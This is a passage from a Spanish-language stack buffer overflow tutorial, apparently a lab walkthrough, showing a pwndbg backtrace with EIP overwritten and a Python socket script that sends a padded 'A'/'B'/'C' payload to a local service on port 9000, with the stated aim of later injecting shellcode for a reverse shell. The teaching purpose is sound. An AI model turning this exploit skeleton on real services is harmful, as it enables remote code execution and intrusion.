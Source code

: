 ```
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0 0x42424242 None
   1 0x300a0d None
   2 0xffffce5c None
────────────────────────────────────────────────────────────────────────────────
```

Vemos que funciona y sobrescribe con `B` el `EIP` por lo que ahora tendremos que injectar un `shellcode` para que se nos haga una `reverse shell` al servidor aprovechando esta vulnerabilidad.

### Verificación del Espacio Después del EIP

Queremos comprobar qué ocurre con los datos introducidos después del `EIP`. Para ello, añadimos datos adicionales (`CCCC`) al final del payload creando una variable `after_eip` y automatizaremos todo esto con un script:

> step3.py

```python
#!/usr/bin/python3

import socket

target_ip = "127.0.0.1"
target_port = 9000

buffer_size = 22
padding = b"A" * buffer_size
eip_override = b"B" * 4
post_eip_data = b"C" * 300

crafted_payload = padding + eip_override + post_eip_data

def send_payload():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((target_ip, target_port))
        sock.send(crafted_payload + b"\r\n")

if __name__ == '__main__':
    send_payload()
```

Ahora en el `GDB` tendremos que poner de nuevo `run` para ejecutar la aplicacion:

> gdb (pwndbg)

```shell
run
```

Y en el host ejecutamos el script:

> host

```shell
python3 step3.py
```
